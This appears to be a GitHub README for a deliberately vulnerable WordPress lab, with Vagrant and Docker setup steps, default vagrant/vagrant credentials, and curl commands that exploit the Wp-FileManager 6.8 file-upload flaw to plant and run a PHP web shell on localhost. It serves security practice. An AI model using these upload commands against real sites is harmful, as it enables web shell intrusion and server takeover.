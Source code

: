 # WordpressVuln



A vulnerable wordpress site


# Install 

The vulnerable wordpress server could run in :
- a virtual machine on an ubuntu host 
- in a docker



## VM

### Install thanks vagrant  
```
sudo apt install vagrant
git clone https://github.com/jossets/WordpressVuln
vagrant up
```

### Credentials 

Vagrant alpine box credentials are:
- login: vagrant 
- password: vagrant 

## Docker 

### Install thanks docker-compose  
```
sudo apt install docker-compose
sudo gpasswd -a $USER docker
git clone https://github.com/jossets/WordpressVuln
docker-compose up
```

# Exploit 

WordPress Plugin Wp-FileManager 6.8 - RCE 
https://www.exploit-db.com/exploits/49178

## Detect 
```
curl  "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"

{"error":["errUnknownCmd"]}
```

## Exploit

### Upload cmd.php
```
curl -F "cmd=upload" -F "target=l1_Lw"  -F "upload[]=@cmd.php" "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"
```

### Run it
```
curl  "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/files/cmd.php"

Pwnd
```
